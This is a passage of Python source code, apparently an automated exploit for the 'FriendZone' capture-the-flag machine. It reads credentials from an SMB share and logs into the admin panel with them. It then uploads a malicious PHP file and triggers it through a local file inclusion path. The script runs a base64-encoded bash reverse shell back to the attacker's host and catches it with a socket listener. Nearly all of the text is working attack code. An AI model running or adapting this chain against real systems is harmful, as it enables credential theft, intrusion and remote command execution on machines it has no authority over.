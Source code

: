 ```py
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()
    
# Function to get the user and password
def SambaRead(rhost):
    opener = urllib.request.build_opener(SMBHandler)
    fh = opener.open('smb://%s/general/creds.txt' %rhost)
    global creds
    creds = fh.read().decode().splitlines()[2]
    print("[+] The creds for the site is: %s ! [+]" %creds)
    fh.close()

# Login on the website
def LoginWeb(rhost,creds):
    print("[+] Now, let's login with the creds ! [+]")
    url = "https://administrator1.friendzone.red:443/login.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = creds.split(":")[1]
    data = {"username": "admin", "password": "%s" %password}
    r.post(url, headers=headers, data=data, verify=False, proxies=proxies)
    print("[+] Logged In !! [+]")
    
# Function to upload the malicious php file
def SambaUpload(rhost):
    print("[+] Let's upload the malicious file !! [+]")
    file_fh = open('cmd.php', 'rb')
    director = urllib.request.build_opener(SMBHandler)
    fh = director.open('smb://%s/Development/cmd.php' %rhost, data = file_fh)
    fh.close()
    print("[+] Done ! [+]")
    
# Function to get the reverse shell
def getReverse(lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../../etc/Development/cmd"
    r.get(url, params=payload_str, proxies=proxies, verify=False, cookies=r.cookies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()
```